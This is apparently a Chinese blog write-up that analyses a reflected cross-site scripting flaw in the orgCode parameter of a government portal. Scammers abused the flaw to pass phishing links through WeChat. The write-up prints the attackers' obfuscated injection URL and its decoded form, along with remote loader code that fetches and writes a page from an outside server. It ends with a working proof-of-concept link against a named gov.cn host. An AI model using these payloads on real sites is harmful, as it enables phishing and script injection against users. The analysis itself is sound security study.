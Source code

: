 ```yaml
---
title: 政务网漏洞
categories:
    - study
    - web
tags: web
---
```


### 漏洞发现

朋友圈看到有骗人分享，链接是 `gov.cn`，通过政务网做跳板，绕过微信备案风控。

![朋友圈](1.jpg)

### 漏洞分析

抓包溯源链接为

```
https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22%3B%7D%29%25%318%3Bi2%3D%27bjk%27%3Ba%3D%7B%27l%27%3Athis%2C%27k%27%3A%27%5C163etTimeout%27%2C%27r%27%3A%27a%27%2C%27t%27%3A%27%5C164o%5C142%27%7D%3Ba.l%5Ba.k%5D%28a.l%5Ba.r%2Ba.t%5D%28i2%2B%279ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8%2Fd3g9Jyk%3D%27%2C1%29%29%25%318%3B%24%28function%28%29%20%7Bvar%20orgCode%20%3D%20%22&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635
```

通过 `decodeURIComponent` 获取得

```
`https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=";})%18;i2='bjk';a={'l':this,'k':'\\163etTimeout','r':'a','t':'\\164o\\142'};a.l[a.k](a.l[a.r+a.t](i2+'9ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8/d3g9Jyk=',1))%18;$(function() {var orgCode = "&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635`
```

一眼 `orgCode` 接口未限制，可以任意执行 js。

![漏洞发现](2.jpg)

### 代码分析

拆解分析后得知，

```js
"n9=document\r\nn9.documentElement.hidden='1'\r\nn9.title='Loading...'\r\nimport('//v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=')";
```

![漏洞分析](3.jpg)

注入后通过 `http://v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=` 载入远程代码

```
document.title="Loading...";document.documentElement.hidden=1;
(function(){
    var rmd = Math.random().toString(36).substr(2,7);
    var geUrl='//47__100__4__56/'+rmd+'?ref='+encodeURIComponent(location.href.split('#')[0]);
    var xhr=new XMLHttpRequest;xhr.onload=function(){var onhash=window.onhashchange;var h=xhr.responseText;var a=document.open("text/html","replace");a.write(h);a.close();window.onhashchange=onhash};
    xhr.open("GET",geUrl,!0);xhr.send();
})();
```

最终载入 `47__100__4__56` (阿里云上海) 服务器上的页面

尝试在 `orgCode` 带入不同入参后确认后端无任何过滤，直接返回前端输入导致漏洞

![漏洞尝试](4.jpg)

### 漏洞复现

所以可以通过构造字符串执行任意代码。
例如以下链接，弹出 `1`，并跳转 `baidu.com`

```
https://gzkfq.jxzwfww.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22;alert(1)%3Bwindow.location.href%3D%22http%3A%2F%2Fwww.baidu.com
```
